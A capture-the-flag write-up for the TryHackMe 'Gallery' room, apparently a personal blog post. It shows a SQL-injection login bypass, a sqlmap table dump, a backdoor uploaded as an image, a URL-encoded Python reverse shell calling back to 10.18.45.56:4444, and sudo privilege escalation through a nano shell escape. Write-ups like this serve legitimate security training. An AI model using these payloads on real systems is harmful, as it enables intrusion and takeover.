 ```yaml
---
layout: post
title:  "Gallery"
categories: [tryhackme]
tags: [linux]
---
```


You can find this machine here : `https://tryhackme.com/room/gallery666`

### Port Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ nmap 10.10.66.67      

PORT     STATE SERVICE
80/tcp   open  http
8080/tcp open  http-proxy
```

### Simple Image Gallery System - SQL Injection


![image]( /assets/img/gallery/1.PNG)


- We are able to login without password
- Just type :

```bash
username : admin'#
```

![image]( /assets/img/gallery/2.gif)


```bash
┌──(kali㉿Zeus)-[~]
└─$ searchsploit Simple Image Gallery System
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Simple Image Gallery System 1.0 - 'id' SQL Injection                             | php/webapps/50198.txt
--------------------------------------------------------------------------------- ---------------------------------
```

- Request

![image]( /assets/img/gallery/3.gif)

```bash
GET /gallery/?page=albums/images&id=6 HTTP/1.1
Host: 10.10.66.67
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.66.67/gallery/?page=albums
Cookie: PHPSESSID=3enduhu52j21fptfp8ck3fpqcs
Upgrade-Insecure-Requests: 1
```

### SQLmap

```bash
sqlmap -r gal.req -D gallery_db -T users --dump
```

![image]( /assets/img/gallery/4.PNG)

### Upload a backdoor as album images

![image]( /assets/img/gallery/5.PNG)

### RCE Confirmed

![image]( /assets/img/gallery/6.PNG)

### Reverse Shell

- payload

```bash
python3%20-c%20%27import%20os,pty,socket;s=socket.socket();s.connect((%2210.18.45.56%22,4444));[os.dup2(s.fileno(),f)for%20f%20in(0,1,2)];pty.spawn(%22sh%22)%27
```

![image]( /assets/img/gallery/7.PNG)

### Privileges Escalation to Mike

```bash
cd /var/backups/mike_home_backup
cat .bash_history
```

![image]( /assets/img/gallery/8.PNG)

### Privileges Escalation to Root

```bash
mike@gallery:~$ sudo -l
sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
mike@gallery:~$ 
```

- exploitation

```bash
sudo -u root /bin/bash /opt/rootkit.sh
read
^R^X
reset; sh 1>&0 2>&0
```
